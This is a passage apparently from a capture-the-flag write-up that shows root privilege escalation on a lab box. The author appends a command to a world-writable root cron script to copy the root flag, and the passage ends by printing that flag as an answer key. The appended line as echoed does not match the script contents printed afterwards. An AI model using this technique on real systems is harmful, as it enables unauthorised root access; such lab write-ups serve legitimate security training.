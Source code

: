 ```sh
kidman@evilwithin:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

*/2 * * * * root python3 /var/.the_eye_of_ruvik.py


kidman@evilwithin:~$ ls -la /var/.the_eye_of_ruvik.py 
-rwxr-xrw- 1 root root 300 Aug 14  2020 /var/.the_eye_of_ruvik.py

kidman@evilwithin:~$ touch /tmp/flag
kidman@evilwithin:~$ chmod 777 /tmp/flag 
kidman@evilwithin:~$ ls -la /tmp/flag 
-rwxrwxrwx 1 kidman kidman 0 Oct 12 04:48 /tmp/flag


kidman@evilwithin:~$ echo 'subprocess.call("cat /root/root.txt > /tmp/flag", shell=True)' >> /var/.the_eye_of_ruvik.py 
kidman@evilwithin:~$ cat /var/.the_eye_of_ruvik.py 
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)

subprocess.call("cat /root/root.txt > /tmp/flag")

```
- By this script the job will be done

```sh
kidman@evilwithin:~$ cat /tmp/flag
BA33BDF5B8A3BFC431322F7D13F3361E

```

## Root flag -> BA33BDF5B8A3BFC431322F7D13F3361E
